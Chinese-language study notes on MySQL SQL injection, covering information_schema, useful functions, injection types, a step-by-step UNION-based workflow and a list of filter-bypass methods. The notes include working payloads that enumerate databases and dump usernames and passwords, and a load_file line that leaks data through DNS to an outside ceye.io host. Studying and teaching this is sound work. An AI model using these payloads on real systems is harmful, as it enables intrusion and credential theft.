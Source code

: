 # SQL注入相关概念

> 			把SQL命令插入到web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令未对用户提交的参数数据进行校验或有效的过滤，直接进行SQL语句拼接，改变了原有SQL语句语义，传入数据库解析引擎中执行
>
> 			```sql
> 			数据库相关概念
> 				基本概念
> 					数据（DATA）
> 					数据库（DATABASE）
> 					数据库管理系统（DBMS）
> 					结构化查询语言（SQL）
> 				基本语句
> 					增
> 						insert into user(id,name) values("64082","lxb")
> 					删
> 						delete from ‘user’ where id=1
> 					改
> 						update user set name=“xb” where id=“64082”
> 					查
> 						select * from ‘user’ where id=1
> 					order by
> 						默认升序排序
> 							select * from ‘user’ order by id
> 						利用order by判断列数
> 							url?id=8 order by 18 回显正常
> 							url?id=8 order by 19 回显异常
> 							以上说明当前表有18列
> 			```



## information_schema的默认表

```sql
MySQL系统数据库information_schema
	SCHEMATE表
		查询所有列名
			DESC information_schema.schemata
		查询所有数据库名
			select distinct schema_name from schemata
	TABLES表
		所有数据库名table_schema
		所有表名table_name
			select distinct table_name from information_schema.tables
	COLUMNS表
		查询所有列名
			DESC information_schema.columns
		查询当前数据库所有列
			select distinct column_name from information_schema.columns
```



## MySQL函数

```sql
MySQL函数
	system_user() 系统用户名
	user() 用户名
	current_user() 当前用户名
	session_user() 连接数据库用的用户名
	database() 数据库名
	version() 数据库版本
	load_file() 读取本地文件
	@@datadir 数据库路径
	@@basedir 安装路径
	@@version_compile_os 操作系统
```



## SQL注入作用与分类

```sql
SQL注入作用
	绕过登录验证
	获取敏感数据
	文件操作系统
	注册表操作
	执行系统命令
SQL注入分类
	按照数据类型
		数字型
			id=1' 异常
			id=1 and 1=1 正常
			id=1 and 1=2 返回数据不同
		字符型
			username=‘test and 1=1’ 无法注入
			username=‘test’ and ‘1’=‘1’ --‘ 闭合字符串才可以注入
	按照注入方法
		显错注入
		联合注入
		盲注
		延时注入
```



## 手工注入逻辑

```sql
手工注入的流程
	测试语句
		数字型
		字符型
	判断注入点
	判断数据库类型
		报错信息
		脚本语言
		连接符
	联合注入
		0.判断注入点
		1.判断列数
			order by 4正常
			order by 5异常
			列数为4
		2.判断回显位
			?id=-1 union select 1,2,3,4
		3.爆数据库名
			?id=-1 union select 1,database(),group_concat(schema_name),4 from information_schema.schemata
		4.爆表名
			?id=-1 union select 1,‘表名’,group_concat(table_name),4 from information_schema.tables where table_schema='test'
		5.爆列名
			?id=-1 union select 1,'列名',group_concat(column_name),4 from information_schema.columns where table_name='table'
		6.爆内容
			?id=-3 union select 1,'用户名密码',group_concat(username,0x5c,password),4 from yzsoumember
	显错注入
	盲注
		select load_file(concat('\\\\','攻击语句',.XXX.ceye.io\\abc))
	延时注入
	文件读取
	文件写入
	Access数据库注入
```



### 联合注入

```sql
手工注入逻辑
		1.判断注入点
			'
			"
		2.判断对方查询的字段数以及回复位置
			1’ union select 1;
			1’ union select 1,2;
		3.判断数据库名称以及版本号
			1‘ union select database(),version();
		4.获取表名
			1’ union select 1,table_name from information_schema.tables where table_schema="user" limit 1,4
		5.获取字段名
			1‘ union select 1,column_name from information_schema.columns  where table_name="user" limit% 1,8
		6.获取内容
			1’ union select 1,concat(name,pass) from user
```



### 盲注







## SQL注入防御与绕过

```sql
防御与绕过
	危害
		数据库信息泄露
		网页篡改
		网站挂马
		数据库恶意被操作
		服务器远程被控制
		破坏硬盘数据
	防御
		过滤
		预处理
	绕过
		关键字大小写
		双写关键字
		编码
		注释
		内敛注释
		特殊符号
		运算符
		等价函数
		缓冲区溢出
		替换
```

